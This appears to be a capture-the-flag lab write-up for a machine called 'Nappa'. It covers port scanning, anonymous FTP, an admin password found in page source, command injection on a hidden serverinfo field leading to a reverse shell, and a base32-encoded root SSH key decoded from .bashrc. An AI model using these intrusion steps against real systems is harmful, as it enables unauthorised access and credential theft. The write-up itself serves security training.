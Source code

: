 # Nappa

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.201.114
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-15 12:08 +08
Warning: 192.168.201.114 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.201.114
Host is up (0.17s latency).
Not shown: 65524 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
21/tcp    open     ftp
3306/tcp  open     mysql
8080/tcp  open     http-proxy
28080/tcp open     thor-engine
60022/tcp open     unknown
```

### FTP Anonymous Creds

FTP accepts anonymous logins:

```
$ ftp 192.168.201.114                       
Connected to 192.168.201.114.
220 (vsFTPd 3.0.3)
Name (192.168.201.114:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||59327|)
150 Here comes the directory listing.
drwxr-xr-x   14 14       11           4096 Nov 06  2020 forum
226 Directory send OK.
ftp> cd forum
l250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||33106|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0            1965 Nov 06  2020 Gemfile
-rw-r--r--    1 0        0            5512 Nov 06  2020 Gemfile.lock
-rw-r--r--    1 0        0             374 Nov 06  2020 README.md
-rw-r--r--    1 0        0             227 Nov 06  2020 Rakefile
drwxr-xr-x   11 0        0            4096 Nov 06  2020 app
drwxr-xr-x    2 0        0            4096 Nov 06  2020 bin
drwxr-xr-x    5 0        0            4096 Nov 06  2020 config
-rw-r--r--    1 0        0             130 Nov 06  2020 config.ru
drwxr-xr-x    2 0        0            4096 Nov 06  2020 db
drwxr-xr-x    4 0        0            4096 Nov 06  2020 lib
drwxr-xr-x    2 0        0            4096 Nov 06  2020 log
-rw-r--r--    1 0        0             217 Nov 06  2020 package.json
drwxr-xr-x    2 0        0            4096 Nov 06  2020 public
drwxr-xr-x    2 0        0            4096 Nov 06  2020 storage
drwxr-xr-x   10 0        0            4096 Nov 06  2020 test
drwxr-xr-x    5 0        0            4096 Nov 06  2020 tmp
drwxr-xr-x    2 0        0            4096 Nov 06  2020 vendor
226 Directory send OK.
```

There was some config files and what not, but there's nothing in it at all. Moving on!

### Web Enumeration --> Password

Port 80 was a ForumOnRails instance:

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

I registered a user and looked through the posts made by the admin, and found his email.

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

I decided to look into the page source for the Login, Register and Forgot Password pages. Within the Register page, there's a password within the page source:

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

We can then login as the admin email and password of `it0jNc6L/r090Q==`.&#x20;

### More Page Source Reading --> RCE

The administrator had access to the `/serverinfo` page:

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

Again, there were some interesting comments in the page source:

<figure><img src="../../../.gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>

We can edit the HTML such that the `cmd` box appears:

<figure><img src="../../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

Then, we can send stuff to this to get a request within Burp, which can give us a reverse shell:

<figure><img src="../../../.gitbook/assets/image (69).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Base32Key --> Root

The user's file had a few files:

```
[kathleen@nappa ~]$ ls -la
total 40
drwx------  5 kathleen kathleen 4096 Nov 16  2020 .
drwxr-xr-x  3 root     root     4096 Nov  4  2020 ..
-rw-------  1 kathleen kathleen    0 Nov  6  2020 .bash_history
-rw-r--r--  1 kathleen kathleen   21 Aug  9  2020 .bash_logout
-rw-r--r--  1 kathleen kathleen   57 Aug  9  2020 .bash_profile
-rw-r--r--  1 kathleen kathleen 4302 Nov  6  2020 .bashrc
drwxr-xr-x  3 kathleen kathleen 4096 Nov  4  2020 .bundle
drwxr-xr-x  4 kathleen kathleen 4096 Nov  4  2020 .gem
drwxr-xr-x 15 kathleen kathleen 4096 Nov  4  2020 forum
-rw-------  1 kathleen kathleen   33 Jul 15 04:08 local.txt
```

I read the `.bashrc` file which had a large string within it.&#x20;

```
[kathleen@nappa ~]$ cat .bashrc
#
# ~/.bashrc
#

# If not running interactively, don't do anything
[[ $- != *i* ]] && return

alias ls='ls --color=auto'
PS1='[\u@\h \W]\$ '

# alias FUWS2LJNIJCUOSKOEBHV <TRUNCATED>
```

This string was only alphanumeric characters, so it wasn't `base64`. Similar to another machine, I checked what binaries starting with `base` were available:

```
[kathleen@nappa ~]$ base
base32    base64    basename  basenc
```

When decoded with `base32`, it revealed a private SSH key:

```
$ echo 'huge string here' | base32 -d
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
<TRUNCATED>
```

We can then use this to `ssh` in as `root`:

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>
